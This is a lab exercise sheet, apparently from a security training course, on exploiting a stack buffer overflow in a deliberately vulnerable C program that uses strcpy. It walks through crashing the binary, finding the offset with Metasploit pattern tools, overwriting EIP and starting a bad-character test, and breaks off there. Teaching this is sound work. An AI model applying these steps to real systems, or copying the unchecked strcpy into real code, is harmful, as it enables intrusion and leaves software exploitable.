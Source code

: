 ### 🎯 Lab 20: Buffer Overflow Exploitation

**Duration**: 180 minutes  
**Objective**: Exploit buffer overflow vulnerability  
**Skills**: Assembly, debugging, shellcode, exploit development

```bash
synos-lab start "Buffer Overflow"
```

**Vulnerable Code**:

```c
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking!
}

int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

**Exploitation Steps**:

1. **Identify Overflow**:

```bash
# Crash the program
./vulnerable $(python3 -c "print('A'*100)")
```

2. **Find Offset**:

```bash
# Create pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100

# Find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41384141
```

3. **Control EIP**:

```bash
# Overwrite EIP with 0x42424242
./vulnerable $(python3 -c "print('A'*76 + 'BBBB')")
```

4. **Bad Characters**:

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  # ... test all bytes
)
```
